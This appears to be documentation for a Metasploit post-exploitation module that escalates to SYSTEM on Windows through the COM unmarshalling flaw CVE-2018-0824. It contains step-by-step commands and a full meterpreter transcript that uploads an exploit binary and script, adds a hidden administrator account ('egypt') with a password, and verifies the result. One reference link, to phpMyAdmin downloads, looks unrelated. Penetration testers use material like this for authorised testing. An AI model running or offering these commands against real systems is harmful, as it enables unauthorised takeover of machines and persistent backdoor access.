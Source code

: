 ## Vulnerable Application

This is a post exploitation module for local privilege escalation bug
which exists in Microsoft COM for windows when it fails to properly
handle serialized objects.

* https://www.phpmyadmin.net/downloads/
* https://github.com/codewhitesec/UnmarshalPwn/
* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-0824

### Limitations

The payload will not spawn ant independent session it simply creates process with the system privilege.
If the system is not vulnerable, then payload will execute but new process will not spawn.

## Verification Steps

If you want to confirm the vulnerability before you add user or perform any other sensitive action.

1. `set COMMAND /s notepad.exe`
2. `run`

Confirmation:

Then go to meterpreter session and confirm running process (ps)
If you see notepad.exe running as SYSYEM then that is as indication of vulnerable system.

## Options

### COMMAND

This command will be executed on successful escalation.</br>

## Scenarios

### Windows 10 (Build 15063)

```
meterpreter > sysinfo
Computer        : WIN10X64-1703
OS              : Windows 10 (Build 15063).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > execute -f cmd.exe -i -H
Process 4868 created.
Channel 7 created.
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Users\msfuser\Downloads>net user
net user

User accounts for \\WIN10X64-1703

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
msfuser                  
The command completed successfully.


C:\Users\msfuser\Downloads>exit           
exit
meterpreter > background
[*] Backgrounding session 1...
msf5 post(windows/escalate/unmarshal_cmd_exec) > show options

Module options (post/windows/escalate/unmarshal_cmd_exec):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   COMMAND                        no        The command to execute as SYSTEM (Can only be a cmd.exe builtin or Windows binary, (net user /add %RAND% %RAND% & net localgroup administrators /add <user>).
   EXPLOIT_NAME                   no        The filename to use for the exploit binary (%RAND% by default).
   PATH                           no        Path to write binaries (%TEMP% by default).
   SCRIPT_NAME                    no        The filename to use for the COM script file (%RAND% by default).
   SESSION                        yes       The session to run this module on.

msf5 post(windows/escalate/unmarshal_cmd_exec) > set command 'net user /add egypt h@ks4shellz  & net localgroup administrators /add egypt'
command => net user /add egypt h@ks4shellz  & net localgroup administrators /add egypt
msf5 post(windows/escalate/unmarshal_cmd_exec) > set verbose true
verbose => true
msf5 post(windows/escalate/unmarshal_cmd_exec) > run

[!] SESSION may not be compatible with this module.
[*] Attempting to PrivEsc on WIN10X64-1703 via session ID: 1
[*] exploit path is: C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe
[*] script path is: C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct
[*] command is: net user /add egypt h@ks4shellz  & net localgroup administrators /add egypt
[*] Attempting to PrivEsc on WIN10X64-1703 via session ID: 1
[*] Uploading Script to C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct
[*] Creating the sct file with command net user /add egypt h@ks4shellz  & net localgroup administrators /add egypt
[*] script_template_data.length =  306
[*] Writing 376 bytes to C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct to target
[*] Script uploaded successfully
[*] Uploading Exploit to C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe
[*] Exploit uploaded on WIN10X64-1703 to C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe
[*] Launching Exploit...
[*] Query for IStorage
Call:  Stat
End:  Stat
Query for IMarshal
Call:  GetMarshalSizeMax
Unknown IID: {ECC8691B-C1DB-4DC0-855E-65F6C551AF49} 0000017F6C3E05B0
Query for IMarshal
Call:  GetUnmarshalClass
Call:  GetMarshalSizeMax
Call:  MarshalInterface
[+] Exploit Completed
[*] C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe already exists on the target. Deleting...
[*] Deleted C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe
[*] C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct already exists on the target. Deleting...
[*] Deleted C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct
[*] Post module execution completed
msf5 post(windows/escalate/unmarshal_cmd_exec) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > execute -f cmd.exe -i -H
Process 1780 created.
Channel 11 created.
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Users\msfuser\Downloads>net user 
net user

User accounts for \\WIN10X64-1703

-------------------------------------------------------------------------------
Administrator            DefaultAccount           egypt                    
Guest                    msfuser                  
The command completed successfully.


C:\Users\msfuser\Downloads>net localgroup administrators
net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
egypt
msfuser
The command completed successfully.


C:\Users\msfuser\Downloads>

```
